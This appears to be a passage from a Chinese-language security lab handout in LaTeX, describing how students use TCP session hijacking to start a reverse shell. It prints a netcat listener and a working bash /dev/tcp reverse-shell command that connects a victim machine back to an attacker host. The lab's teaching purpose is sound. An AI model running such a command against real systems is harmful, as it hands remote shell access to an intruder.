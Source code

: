 \section{Task 4: 使用会话劫持创建反向shell}

当攻击者能够使用TCP会话劫持向受害者的机器注入命令时，他们不仅只是想执行单个命令那么简单；
他们会执行许多命令，显然全部通过TCP会话劫持来运行这些命令非常不方便。
攻击者希望利用攻击建立一个后门，这样他们就可以利用这个后门方便地实施进一步的破坏。

设置后门的一个典型方法是，在受害者机器上运行一个反向shell，让攻击者的shell访问受害者机器。
反向shell是一个在远程机器上运行的shell进程，连接回攻击者的机器。一旦远程机器被入侵，攻击者就可以轻松地访问它。

在下文中，我们将展示在已经能够受害者机器（即服务器机器）上执行单个命令的情况下，如何设置一个反向shell。
在这一TCP会话劫持攻击中，攻击者不能直接在受害者机器上运行命令，所以他们的工作是通过会话劫持攻击来运行反向shell命令。
在这项任务中，学生需要证明他们能够实现这一目标。

为了让远程机器上的 \texttt{bash} shell 连接回攻击者的机器，攻击者需要一个进程在指定端口上等待连接。
在这个例子中，我们将使用 \texttt{netcat}。这个程序允许我们指定一个端口，并监听该端口上的连接。
如下所示，我们有两个窗口，分别来自两个不同的机器。
顶部的窗口是攻击者机器 \texttt{10.9.0.1}，我们运行 \texttt{netcat}~(简称 \texttt{nc}) 来监听 \texttt{9090} 端口。
底部的窗口是受害者机器 \texttt{10.9.0.5}，我们输入 反向shell 命令并执行，在顶部的窗口就能看出我们得到了运行在 \texttt{10.9.0.5} 上的一个 反向shell。

\begin{minipage}{\linewidth}
\begin{lstlisting}[backgroundcolor=]
           +---------------------------------------------------+ 
           | (*@\textbf{On 10.9.0.1 (attcker)}@*)                             |
           |                                                   | 
           | $ nc -lnv 9090                                    |  
           | Listening on 0.0.0.0 9090                         |  
           | Connection received on 10.9.0.5 49382             |  
           | $   <--+ (*@\textbf{This shell runs on 10.9.0.5}@*)              | 
           |                                                   |  
           +---------------------------------------------------+  
          
           +---------------------------------------------------+  
           | (*@\textbf{On 10.9.0.5 (victim)}@*)                              |
           |                                                   | 
           |$ /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1  | 
           |                                                   | 
           +---------------------------------------------------+
\end{lstlisting}
\end{minipage}

